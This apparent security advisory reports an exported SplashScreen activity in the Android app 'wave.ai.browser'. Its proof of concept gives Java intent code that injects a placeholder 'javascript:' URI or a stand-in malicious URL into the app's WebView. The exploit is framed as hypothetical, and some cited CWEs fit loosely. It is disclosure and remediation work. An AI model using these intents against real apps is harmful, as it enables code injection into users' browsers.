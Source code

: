 ## Vulnerability Report: Arbitrary Code Execution via Exported `SplashScreen` Activity in `wave.ai.browser`

### Overview:

The `wave.ai.browser` application contains a manifest entry that exports the `SplashScreen` activity. This exported activity potentially permits unauthorized applications to start it with arbitrary intent data. If the activity uses this intent data without proper validation and sanitization in a WebView component, it can lead to arbitrary code execution within the context of the `wave.ai.browser` application.

### Detailed Description:

An exported activity is one that can be invoked by other applications on the device. If not properly protected or if it implicitly trusts the data it receives, this can pose a security risk.

Given the manifest entry:
```xml
<activity android:theme="@style/Theme.App.Splash" 
          android:name="wave.ai.browser.ui.splash.SplashScreen" 
          android:exported="true" 
          android:launchMode="singleTop" 
          android:screenOrientation="portrait">
</activity>
```
The `wave.ai.browser.ui.splash.SplashScreen` activity is exported, meaning any third-party application can start this activity.

Suppose this activity uses a WebView component to display web content and doesn't adequately validate or sanitize the URI or any extra data passed in the intent. In that case, a malicious app could craft an intent to execute arbitrary JavaScript within that WebView.

### POC:

![wave_ai_uri](https://github.com/actuator/wave.ai.browser/assets/78701239/11744eeb-2c73-4d63-9cea-2986e85c60bb)


#### Malicious Intent Creation:
In a malicious app:
```java
Intent intent = new Intent();
intent.setComponent(new ComponentName("wave.ai.browser", "wave.ai.browser.ui.splash.SplashScreen"));
intent.setData(Uri.parse("javascript:malicious_code_here"));
startActivity(intent);
```


If the `SplashScreen` activity in `wave.ai.browser` loads URIs in this manner without checking or sanitizing them, the malicious JavaScript code would execute within the context of the `wave.ai.browser` app or load an arbitrary website.

```java
Intent intent = new Intent();
intent.setComponent(new ComponentName("wave.ai.browser", "wave.ai.browser.ui.splash.SplashScreen"));
intent.setData(Uri.parse("http://maliciouswebsitetest.com/"));
startActivity(intent);
```

### CWE References:

1. **CWE-200**: Information Exposure - When an application does not properly or selectively restrict access to its resources.
2. **CWE-749**: Exposed Dangerous Method or Function - The software exposes a method or function that can be leveraged by an attacker to compromise the system or application.
3. **CWE-927**: Use of Implicit Intent for Sensitive Communication - The software sends a message or a piece of data using an implicit intent, in which the target component is not specified, but is instead selected by the mobile OS from the components that have been declared to handle that kind of intent.

### Recommendations:

1. **Limit the Export of Activities**: Unless there's a compelling reason, avoid exporting activities. If you must export an activity, use intent filters and permissions to restrict who can start the activity.
2. **Validate and Sanitize Intent Data**: Always validate and sanitize data obtained from intents before use. Never trust data from external sources.
3. **Secure WebView Settings**: If using WebView, disable JavaScript unless necessary. Always sanitize and validate URLs and data passed to the WebView.

### Conclusion:

The manifest configuration of `wave.ai.browser` exposes it to potential arbitrary code execution risks. Immediate remediation actions should be taken to prevent malicious apps from exploiting this vulnerability.
